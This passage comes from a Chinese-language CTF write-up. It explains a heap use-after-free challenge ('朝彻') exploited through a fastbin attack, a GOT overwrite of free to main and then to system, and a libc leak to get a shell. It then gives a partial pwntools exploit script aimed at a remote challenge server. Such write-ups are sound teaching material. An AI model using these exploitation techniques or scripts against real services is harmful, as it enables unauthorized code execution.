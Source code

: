 ```python

se(cyclic(0x3b))

print(hex(p_addr))
p.interactive()
```

### 朝彻

这题有一个UAF，可以在chunk被free掉之后还继续改，因此可以直接fastbin attack，然后控制另外一个chunk，就有一个任意读写，但是读只能读2个字节，这个就有点难受，所以做法是首先任意写，改got表中的free，改成main函数，这样每次delete的时候，show和edit的次数又恢复了
之后leak出libc地址，然后把free又改成system，直接get shell

payload如下

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn10')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50010)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(content):
    sl('1')
    ru('size :')
    sl(str(len(content)))
    ru('content')
    se(content)
    ru('choice :')

def show(idx):
    sl('2')
    ru('index : \n')
    sl(str(idx))

def edit(idx,content):
    sl('3')
    ru('index :')
    sl(str(idx))
    ru('size :')
    sl(str(len(content)))
    ru('content')
    se(content)
    ru('choice :')

def delete(idx):
    sl('4')
    ru('index :')
```